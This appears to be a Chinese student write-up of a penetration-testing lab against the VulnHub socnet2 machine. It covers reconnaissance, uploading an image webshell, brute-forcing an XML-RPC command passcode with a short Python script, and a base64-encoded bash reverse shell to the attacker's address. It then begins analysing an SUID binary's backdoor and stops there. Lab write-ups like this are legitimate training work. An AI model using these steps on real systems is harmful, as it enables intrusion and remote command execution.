# 网络攻防实战 Lab06 Writeup

!!! quote "使用的靶机为 VulnHub hard-socnet2"

!!! success "比 Lab 5 难"

## 渗透目的

取得目标靶机的 root 权限

了解 XML 语法；了解 Linux 栈溢出攻击的原理与具体操作

## 具体操作

### 信息收集

启动 VirtualBox 中的 Kali 攻击机（用于进行渗透攻击）与 Kioptix 靶机，网络采用 NAT 连接

`ifconfig` 获取攻击机的 ip 为 `10.0.2.3`，使用 `nmap` 扫描 ip：

```
> nmap -sn 10.0.2.0/24
Starting Nmap 7.95 ( https://nmap.org ) at 2025-10-28 08:52 CST
Nmap scan report for bogon (10.0.2.1)
Host is up (0.00051s latency).
MAC Address: 52:55:0A:00:02:01 (Unknown)
Nmap scan report for bogon (10.0.2.2)
Host is up (0.00044s latency).
MAC Address: 08:00:27:79:06:A9 (PCS Systemtechnik/Oracle VirtualBox virtual NIC)
Nmap scan report for bogon (10.0.2.6)
Host is up (0.0027s latency).
MAC Address: 08:00:27:E5:CD:43 (PCS Systemtechnik/Oracle VirtualBox virtual NIC)
Nmap scan report for bogon (10.0.2.3)
Host is up.
Nmap done: 256 IP addresses (4 hosts up) scanned in 2.09 seconds
```

考虑靶机 ip 为 `10.0.2.6`，继续扫描端口 `nmap -sV -sC 10.0.2.6`，看看有哪些服务项

```
> nmap -sV -sC 10.0.2.6
Starting Nmap 7.95 ( https://nmap.org ) at 2025-10-28 08:53 CST
Nmap scan report for bogon (10.0.2.6)
Host is up (0.016s latency).
Not shown: 997 closed tcp ports (reset)
    
// SSH 服务
PORT     STATE SERVICE VERSION
22/tcp   open  ssh     OpenSSH 7.6p1 Ubuntu 4 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 e5:d3:4e:54:fe:66:3e:f3:b2:a5:4b:51:9f:5f:f9:c6 (RSA)
|   256 de:86:ef:76:93:63:74:83:00:b1:a3:b8:c2:4c:8f:58 (ECDSA)
|_  256 b5:ec:f1:1e:9a:5a:5c:d7:02:3a:9e:1b:f7:c8:b4:53 (ED25519)
    
// Apache 服务
PORT     STATE SERVICE VERSION
80/tcp   open  http    Apache httpd 2.4.29 ((Ubuntu))
| http-cookie-flags: 
|   /: 
|     PHPSESSID: 
|_      httponly flag not set
|_http-server-header: Apache/2.4.29 (Ubuntu)
|_http-title: Social Network

// BaseHTTPServer: Python 2 中用于创建简单 HTTP 服务器的模块
// 和上面的 Apache 一样都是 HTTP 后端
PORT     STATE SERVICE VERSION
8000/tcp open  http    BaseHTTPServer 0.3 (Python 2.7.15rc1)
|_xmlrpc-methods: XMLRPC instance doesn't support introspection.
|_http-title: Error response
|_http-server-header: BaseHTTP/0.3 Python/2.7.15rc1
MAC Address: 08:00:27:E5:CD:43 (PCS Systemtechnik/Oracle VirtualBox virtual NIC)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 8.16 seconds
```

同时确定靶机操作系统为 `Ubuntu`

---

### Getshell 尝试

总共有两个 HTTP 端口：

> Port: 80
>
> 一个 Pynch （没找到相关信息）的登录页面，可以注册
>
> 
>
> 有注册账号页面，先注册一个账号
>
> 
>
> 进入主站是一个交友软件（没用过）的界面，过会探索一下
>
> 

>Port: 8000
>
>无法以正常的方式（GET POST 等等）访问
>
>但是 POST method 返回的信息和其他的方式不同，说明方法正确
>
>```xml
># GET METHOD
>Error response
>Error code 501.
>Message: Unsupported method ('GET').
>Error code explanation: 501 = Server does not support this operation. 
>
># POST METHOD
><methodResponse>
><fault>
>   <value>
>       <struct>
>           <member>
>               <name>faultCode</name>
>               <value>
>                   <int>1</int>
>               </value>
>           </member>
>           <member>
>               <name>faultString</name>
>               <value>
>                   <string><class 'xml.parsers.expat.ExpatError'>:no element found: line 1, column 0</string>
>                       </value>
>                   </member>
>               </struct>
>           </value>
>       </fault>
>   </methodResponse>
>```

先对 `10.0.2.6:80` 进行测试：

#### 地址爆破

在实际探索网站前用 dirb 爆破目录，收集一下基础信息：

```
dirb http://10.0.2.6:80 /usr/share/dirb/wordlists/big.txt

---- Scanning URL: http://10.0.2.6:80/ ----
==> DIRECTORY: http://10.0.2.6:80/data/                        
==> DIRECTORY: http://10.0.2.6:80/database/                       
==> DIRECTORY: http://10.0.2.6:80/functions/                          
==> DIRECTORY: http://10.0.2.6:80/images/                        
==> DIRECTORY: http://10.0.2.6:80/includes/                 
==> DIRECTORY: http://10.0.2.6:80/resources/                    
+ http://10.0.2.6:80/server-status (CODE:403|SIZE:296)
```

`/data` 和 `/image` 内是一些图片 sprite，`/resources` 内是一些 HTTP 前端的 JS/CSS 文件，而其余的 directory 提供了很多内容：



先看 SQL 文件，其中 `DDL.sql` 是注册用户用途，而 `DML.sql` 的内容比较有趣：

```sql
INSERT INTO users(user_firstname, user_lastname, user_password, user_email, user_gender, user_birthdate)
       VALUES ("Armin", "Virgil", "armin@gmail.com", "M", "2001-02-05");
INSERT INTO users(user_firstname, user_lastname, user_nickname, user_password, user_email, user_gender, user_birthdate, user_status)
       VALUES ("Paul", "James", "Pynch", "paul@gmail.com", "M", "1998-12-19", "S");
INSERT INTO users(user_firstname, user_lastname, user_password, user_email, user_gender, user_birthdate)
       VALUES ("Chris", "Wilson", "chris@gmail.com", "M", "1996-01-18");
INSERT INTO users(user_firstname, user_lastname, user_password, user_email, user_gender, user_birthdate, user_status)
       VALUES ("Rory", "Blue", "rory@gmail.com", "F", "1994-04-18", "M");
INSERT INTO users(user_firstname, user_lastname, user_password, user_email, user_gender, user_birthdate)
       VALUES ("Andrea", "Surman", "andrea@gmail.com", "M", "1994-06-06");
# 没有自己的注册信息？

INSERT INTO posts(post_caption, post_time, post_public, post_by) VALUES ("Hello there!", "2017-12-23 00:50:06", "Y", 1);
INSERT INTO posts(post_caption, post_time, post_public, post_by) VALUES ("Paul James has changed his profile picture.", "2017-12-23 00:50:06", "N", 2);
INSERT INTO posts(post_caption, post_time, post_public, post_by) VALUES ("A new artwork from the upcoming content.", "2017-12-23 00:50:06", "Y", 3);
INSERT INTO posts(post_caption, post_time, post_public, post_by) VALUES ("New Year Eve Fireworks", "2017-12-23 00:50:06", "Y", 4);
INSERT INTO posts(post_caption, post_time, post_public, post_by) VALUES ("Visit our profile to check out the upcoming transfers and rumors for January 2018", "2017-12-23 00:50:06", "N", 5);
INSERT INTO posts(post_caption, post_time, post_public, post_by) VALUES ("Happy new year!", "2017-12-23 00:50:06", "N", 5);

INSERT INTO friendship(user1_id, user2_id, friendship_status) VALUES (2,1,1);
INSERT INTO friendship(user1_id, user2_id, friendship_status) VALUES (2,3,1);
INSERT INTO friendship(user1_id, user2_id, friendship_status) VALUES (2,4,1);

INSERT INTO friendship(user1_id, user2_id, friendship_status) VALUES (1,5,1);
INSERT INTO friendship(user1_id, user2_id, friendship_status) VALUES (3,5,1);
INSERT INTO friendship(user1_id, user2_id, friendship_status) VALUES (4,5,1);

```

这里存储了一些用户数据，尤其是这个人的：

```sql
INSERT INTO users(user_firstname, user_lastname, user_nickname, user_password, user_email, user_gender, user_birthdate, user_status)
       VALUES ("Paul", "James", "Pynch", "paul@gmail.com", "M", "1998-12-19", "S");
```

这个人的 `nickname` 恰好对应网站开头的 Welcome to Pynch，猜测他是管理员

其他的 php 文件看不到源码，但是也能提供信息，比如 `upload.php` 很可能存在文件马上传

#### 访问主站

用之前注册的账号进行主站访问，发现了 Profile 页面


注意到有上传图片的地方，考虑上传图片马



上传成功了，右键得到图片地址 `http://10.0.2.6/data/images/profiles/3.php5`



打开后用 AntSword 进行连接

（上下两个配图不一样是因为我第一次用的图片马没有被正确识别，换了一个）





打开虚拟终端，成功 Getshell



###提权尝试

有内核漏洞，但是如果直接用这个就没有意思了

```
Linux Kernel 4.10 < 5.1.17 - 'PTRACE_TRACEME' pkexec Local Privilege Escalation                                   | linux/local/47163.c
Linux Kernel 4.15.x < 4.19.2 - 'map_write() CAP_SYS_ADMIN' Local Privilege Escalation (cron Method)               | linux/local/47164.sh
Linux Kernel 4.15.x < 4.19.2 - 'map_write() CAP_SYS_ADMIN' Local Privilege Escalation (dbus Method)               | linux/local/47165.sh
Linux Kernel 4.15.x < 4.19.2 - 'map_write() CAP_SYS_ADMIN' Local Privilege Escalation (ldpreload Method)          | linux/local/47166.sh
Linux Kernel 4.15.x < 4.19.2 - 'map_write() CAP_SYS_ADMIN' Local Privilege Escalation (polkit Method)             | linux/local/47167.sh
```

搜一下用户，发现 `socnet` 用户有 `/bin/bash` 

```
(www-data:/var/www/html/data/images/profiles) $ cat /etc/passwd
root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
sys:x:3:3:sys:/dev:/usr/sbin/nologin
sync:x:4:65534:sync:/bin:/bin/sync
games:x:5:60:games:/usr/games:/usr/sbin/nologin
man:x:6:12:man:/var/cache/man:/usr/sbin/nologin
lp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin
mail:x:8:8:mail:/var/mail:/usr/sbin/nologin
news:x:9:9:news:/var/spool/news:/usr/sbin/nologin
uucp:x:10:10:uucp:/var/spool/uucp:/usr/sbin/nologin
proxy:x:13:13:proxy:/bin:/usr/sbin/nologin
www-data:x:33:33:www-data:/var/www:/usr/sbin/nologin
backup:x:34:34:backup:/var/backups:/usr/sbin/nologin
list:x:38:38:Mailing List Manager:/var/list:/usr/sbin/nologin
irc:x:39:39:ircd:/var/run/ircd:/usr/sbin/nologin
gnats:x:41:41:Gnats Bug-Reporting System (admin):/var/lib/gnats:/usr/sbin/nologin
nobody:x:65534:65534:nobody:/nonexistent:/usr/sbin/nologin
systemd-network:x:100:102:systemd Network Management,,,:/run/systemd/netif:/usr/sbin/nologin
systemd-resolve:x:101:103:systemd Resolver,,,:/run/systemd/resolve:/usr/sbin/nologin
syslog:x:102:106::/home/syslog:/usr/sbin/nologin
messagebus:x:103:107::/nonexistent:/usr/sbin/nologin
_apt:x:104:65534::/nonexistent:/usr/sbin/nologin
lxd:x:105:65534::/var/lib/lxd/:/bin/false
uuidd:x:106:110::/run/uuidd:/usr/sbin/nologin
dnsmasq:x:107:65534:dnsmasq,,,:/var/lib/misc:/usr/sbin/nologin
landscape:x:108:112::/var/lib/landscape:/usr/sbin/nologin
pollinate:x:109:1::/var/cache/pollinate:/bin/false
sshd:x:110:65534::/run/sshd:/usr/sbin/nologin
socnet:x:1000:1000:socnet2:/home/socnet:/bin/bash		<------ this
mysql:x:111:113:MySQL Server,,,:/nonexistent:/bin/false
```

到目录下搜索

```
(www-data:/var/www/html/data/images/profiles) $ cd /home/socnet
(www-data:/home/socnet) $ ls -l -a
total 60
drwxr-xr-x 6 socnet socnet 4096 Oct 29  2018 .
drwxr-xr-x 3 root   root   4096 Oct 29  2018 ..
-rw-r--r-- 1 socnet socnet 3771 Apr  4  2018 .bashrc
drwx------ 2 socnet socnet 4096 Oct 29  2018 .cache
-rw------- 1 socnet socnet 1040 Oct 29  2018 .gdb_history
-rw-rw-r-- 1 socnet socnet   22 Oct 29  2018 .gdbinit
drwx------ 3 socnet socnet 4096 Oct 29  2018 .gnupg
drwxrwxr-x 3 socnet socnet 4096 Oct 29  2018 .local
-rw------- 1 socnet socnet  579 Oct 29  2018 .mysql_history
-rw-r--r-- 1 socnet socnet  807 Apr  4  2018 .profile
-rw-rw-r-- 1 socnet socnet   66 Oct 29  2018 .selected_editor
-rw-r--r-- 1 socnet socnet    0 Oct 29  2018 .sudo_as_admin_successful
-rwsrwsr-x 1 root   socnet 6952 Oct 29  2018 add_record		# suid? 
-rw-rw-r-- 1 socnet socnet  904 Oct 29  2018 monitor.py
drwxrwxr-x 4 socnet socnet 4096 Oct 29  2018 peda
```

<del>sus</del> `.sudo_as_admin_successful` 文件提示这里有 sudo 的可能性（其实没什么关联），而 `monitor.py` 文件在之前的 post 中有提示



看看 `monitor.py` 的内容：

```python
#my remote server management API
import SimpleXMLRPCServer
import subprocess
import random

# 一个在启动服务时随机生成的四位数 passcode
# 这个密码在服务启动期间不变
debugging_pass = random.randint(1000,9999)
# shell = True 任意命令执行？
def runcmd(cmd):
    results = subprocess.Popen(cmd, shell=True, stdout=subprocess.PIPE, stderr=subprocess.PIPE, stdin=subprocess.PIPE)
    output = results.stdout.read() + results.stderr.read()
    return output
# 输出 CPU 状态
def cpu():
    return runcmd("cat /proc/cpuinfo")
# 之后的都懂了
def mem():
    return runcmd("free -m")
def disk():
    return runcmd("df -h")
def net():
    return runcmd("ip a")

# 根据 passcode 调用上面的任意命令执行指令
def secure_cmd(cmd,passcode):
    if passcode==debugging_pass:
         return runcmd(cmd)
    else:
        return "Wrong passcode."
    
# 注册函数，开始启动服务器
server = SimpleXMLRPCServer.SimpleXMLRPCServer(("0.0.0.0", 8000))
server.register_function(cpu)
server.register_function(mem)
server.register_function(disk)
server.register_function(net)
server.register_function(secure_cmd)
server.serve_forever()
```

一个  XML-RPC 服务，服务端口在之前一直 *Error code 501* 的 8000

了解一下 XML 语法，试试 POST 访问，并且调用 `cpu` 指令



返回了预期的结果，现在的目标是爆破 `secure_cmd` 的四位密码

（第一个参数为命令，第二个参数为 `passcode`）



让 AI 给出一个最小化的爆破程序：

```python
import xmlrpc.client

proxy = xmlrpc.client.ServerProxy("http://10.0.2.6:8000")

for password in range(1000, 10000):
    try:
        result = proxy.secure_cmd("whoami", password)
        if "Wrong passcode" not in str(result):
            print(password)
            break
    except:
        pass
```

很快给出了 `passcode`

```
> python3 exp.py
5842
```

确认一下，指令顺利执行：



构建一个反弹 Shell，XML 会拒绝某些特殊字符出现在字符串中，所以 Base64 编码后再发送

--> `echo "YmFzaCAtaSA+JiAvZGV2L3RjcC8xMC4wLjIuMy8xMjM0IDA+JjEK" | base64 -d | bash`

```
> nc -lvnp 1234
listening on [any] 1234 ...
connect to [10.0.2.3] from (UNKNOWN) [10.0.2.6] 33498
bash: cannot set terminal process group (780): Inappropriate ioctl for device
bash: no job control in this shell
socnet@socnet2:~$ python -c "import pty; pty.spawn('/bin/bash')"
python -c "import pty; pty.spawn('/bin/bash')"
socnet@socnet2:~$ 
```

获得了一个权限更高的 `socnet` 用户 Shell，下一步就是获取 `root` 用户

考虑到之前发现过一个 suid 文件，扫一下 suid

```
socnet@socnet2:~$ find / -perm -4000 -type f 2>/dev/null
/snap/core/17247/bin/mount
/snap/core/17247/bin/ping
# 省略很多文件...
/home/socnet/add_record

socnet@socnet2:~$ ls -l
total 16
-rwsrwsr-x 1 root   socnet 6952 Oct 29  2018 add_record
-rw-rw-r-- 1 socnet socnet  904 Oct 29  2018 monitor.py
drwxrwxr-x 4 socnet socnet 4096 Oct 29  2018 peda

socnet@socnet2:~$ file add_record
add_record: setuid, setgid ELF 32-bit LSB executable, Intel 80386, version 1 (SYSV), dynamically linked, interpreter /lib/ld-linux.so.2, for GNU/Linux 3.2.0, BuildID[sha1]=e3fa9a66b0b1e3281ae09b3fb1b7b82ff17972d8, not stripped
```

确定可疑文件 `add_record` ，是一个 ELF-32 文件，所有者为 root。没有提供源代码，需要动态调试甚至逆向（PWN or RE）

> 有趣的是，add_record 同级文件夹中还有一个 peda 是 gdb 的一个插件，这明示了使用 gdb 进行动态调试🤓

用 `gdb add_record` 先 run 一下

```
gdb-peda$ run
run
Starting program: /home/socnet/add_record 
Welcome to Add Record application
Use it to add info about Social Network 2.0 Employees
Employee Name(char): Unknown
Unknown
Years worked(int): 114
114
Salary(int): 514
514
Ever got in trouble? 1 (yes) or 0 (no): 1
1
Explain: Give me ur root account :)
Give me ur root account :)
Employee data you've entered:
Name Unknown

Years 113, Salary 114, Trouble 1, Comments Give me ur root account :)
[Inferior 1 (process 3123) exited normally]
Warning: not running or target is remote
```

没什么线索，用 IDA 逆向一番，发现一个直接叫作 backdoor 的函数，植入的是任意代码执行



不幸的是，这个函数没有被其他的任何函数引用，因此考虑需要在某处执行内存溢出攻击

先记下后门函数的首地址 `0x08048676`，然后看看 `main` 函数的内容：

```c
// bad sp value at call has been detected, the output may be wrong!
